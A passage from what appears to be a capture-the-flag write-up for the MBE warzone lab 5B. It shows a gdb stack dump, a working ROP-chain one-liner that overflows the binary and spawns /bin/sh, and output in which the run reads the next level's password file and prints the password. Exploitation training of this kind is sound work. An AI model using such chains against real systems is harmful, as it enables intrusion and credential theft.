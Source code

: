 ```nasm
0012| 0xbffff6d8 --> 0x0
0016| 0xbffff6dc --> 0x80481c9 (<_init+33>: pop    ebx)
0020| 0xbffff6e0 --> 0xbffff6e8 ("/bin/sh")
0024| 0xbffff6e4 --> 0x8049401 (<__libc_setup_tls+321>: int    0x80)
0028| 0xbffff6e8 ("/bin/sh")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048e89 in main ()
```

And if we continue the execution, we should get a shell.

```nasm
gdb-peda$ conti
Continuing.
process 6298 is executing new program: /bin/dash
```

Nice!

## Solution

As we are using a stack address pointing to "/bin/sh", like in the previous levels, we will need to adjust the address. Here, it seems that removing **40 bytes** from `0xbffff6e8` did the trick.

```shell
lab5B@warzone:/levels/lab05$ (python -c "print(140 * 'A' + '\x26\xbf\x0b\x08' + '\x0b\x00\x00\x00' + '\xad\x55\x0e\x08' + '\x00\x00\x00\x00' + '\xc9\x81\x04\x08' + '\xa8\xf6\xff\xbf' + '\x01\x94\x04\x08' + '/bin/sh')"; cat -) | ./lab5B
Insert ROP chain here:

whoami
lab5A
cat /home/lab5A/.pass
th4ts_th3_r0p_i_lik3_2_s33
```

Awesome! You can go to the last [challenge](/writeups/mbe/lab5a/).
